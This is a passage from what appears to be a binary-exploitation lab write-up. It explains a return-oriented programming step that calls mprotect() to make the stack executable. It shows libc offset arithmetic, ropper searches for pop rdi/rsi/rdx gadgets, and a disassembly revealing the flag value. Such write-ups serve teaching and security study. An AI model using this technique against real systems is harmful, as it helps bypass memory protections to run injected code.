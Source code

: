 The `mprotect()` function is at address `0x7ffff7ee7bc0`, which means that it comes `0x7ffff7ee7bc0 - 0x7ffff7def000 = 0xf8bc0` bytes after the base of libc. Our goal is to call `mprotect(void *addr, size_t len, int prot)`, where `addr` is the base of the stack, `len` is the length of the stack, and `prot` is set to `PROT_READ | PROT_WRITE | PROT_EXEC | PROT_GROWSDOWN` (look at the [manpage](https://man7.org/linux/man-pages/man2/mprotect.2.html) for more information). In the [x86_64 calling convention](https://aaronbloomfield.github.io/pdr/book/x86-64bit-ccc-chapter.pdf), these parameters need to be passed into RDI, RSI, and RDX, respectively.

We will need the following three ROP gadgets for moving these parameters into RDI, RSI, and RDX.
```sh
$ ropper --file /usr/lib/x86_64-linux-gnu/libc-2.31.so --search "pop rdi"

[...]

0x0000000000026796: pop rdi; ret;

$ ropper --file /usr/lib/x86_64-linux-gnu/libc-2.31.so --search "pop rsi"

[...]

0x000000000002890f: pop rsi; ret;

$ ropper --file /usr/lib/x86_64-linux-gnu/libc-2.31.so --search "pop rdx"

[...]

0x00000000000cb16d: pop rdx; ret;
```

To figure out what `PROT_READ | PROT_WRITE | PROT_EXEC | PROT_GROWSDOWN` is actually equal to in hex, I wrote the following code in a file and compiled it.
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

int main(void) {
    mprotect(NULL, 0, PROT_READ | PROT_WRITE | PROT_EXEC | PROT_GROWSDOWN);
    return 0;
}
```

By looking at the object dump for this program, we can see that `PROT_READ | PROT_WRITE | PROT_EXEC | PROT_GROWSDOWN` is stored as `0x1000007` in hex.
```sh
0000000000001135 <main>:
    1135:       55                      push   rbp
    1136:       48 89 e5                mov    rbp,rsp
    1139:       ba 07 00 00 01          mov    edx,0x1000007
    113e:       be 00 00 00 00          mov    esi,0x0
    1143:       bf 00 00 00 00          mov    edi,0x0
    1148:       e8 e3 fe ff ff          call   1030 <mprotect@plt>
    114d:       b8 00 00 00 00          mov    eax,0x0
    1152:       5d                      pop    rbp
    1153:       c3                      ret
    1154:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
    115b:       00 00 00
    115e:       66 90                   xchg   ax,ax
```
